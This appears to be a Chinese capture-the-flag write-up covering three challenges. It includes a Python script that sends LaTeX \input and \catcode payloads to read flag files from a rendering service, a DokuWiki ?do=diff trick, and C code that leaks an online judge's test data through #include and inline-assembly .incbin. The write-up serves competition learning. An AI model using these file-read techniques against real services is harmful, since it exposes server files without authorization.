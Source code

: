 第一问比较简单，直接`\input`就行，第二问经过大量的搜索发现`\catcode`。

```python
import re
import base64
from requests import post

url = 'http://202.38.93.111:10020/'

headers = {
    'Content-Type': 'application/x-www-form-urlencoded',
    'Cookie': 'session=xxx',  # xxx is your session
}

# data = 'latex-text=' + r'\input{/flag1}'
data = 'latex-text=' + r'$$\catcode `\_=12 \catcode `\#=12 \input{/flag2}$$'
r = post(url=url, headers=headers, data=data)

if '输入解析失败' in r.text:
    print('输入解析失败')
else:
    print('成功')
    img_b64 = re.search(r'base64,(.*)', r.text).group(1)
    with open('img.png', 'wb') as f:
        f.write(base64.decodebytes(img_b64.encode('utf-8')))
```

## Flag的痕迹

本地配置了一个发现有个禁用action的选择，搜了一下dokuwiki都有哪些action，在[devel:action_modes [DokuWiki]](https://www.dokuwiki.org/devel:action_modes#:~:text=the%20current%20page.-,diff,-%3A%20Generates%20a%20diff)找到了diff，网址加上`?do=diff`得到flag。

## 安全的在线测评

编译期的信息会输出到`stdout`，第一问通过直接include文件，通过报错信息可以得到n和p：

```c
#include "../data/static.in
// #include "../data/static.out
```

相除得到q，再写个文件输出就行了。

第二问经过大量搜索，查到了一个知乎答案[# C++怎么把任意文本文件include成全局字符数组？](https://www.zhihu.com/question/431645051/answer/1826562458)，核心就是内联汇编`.incbin`指令，代码：

```c
#include <stdio.h>
#include <string.h>

#define EMBED_STR(name, path)                \
  extern const char name[];                  \
  asm(".section .rodata, \"a\", @progbits\n" \
      #name ":\n"                            \
      ".incbin \"" path "\"\n"               \
      ".byte 0\n"                            \
      ".previous\n");

EMBED_STR(s_in, "./data/static.in");
EMBED_STR(d0_in, "./data/dynamic0.in");
EMBED_STR(d1_in, "./data/dynamic1.in");
EMBED_STR(d2_in, "./data/dynamic2.in");
EMBED_STR(d3_in, "./data/dynamic3.in");
EMBED_STR(d4_in, "./data/dynamic4.in");
EMBED_STR(s_out, "./data/static.out");
```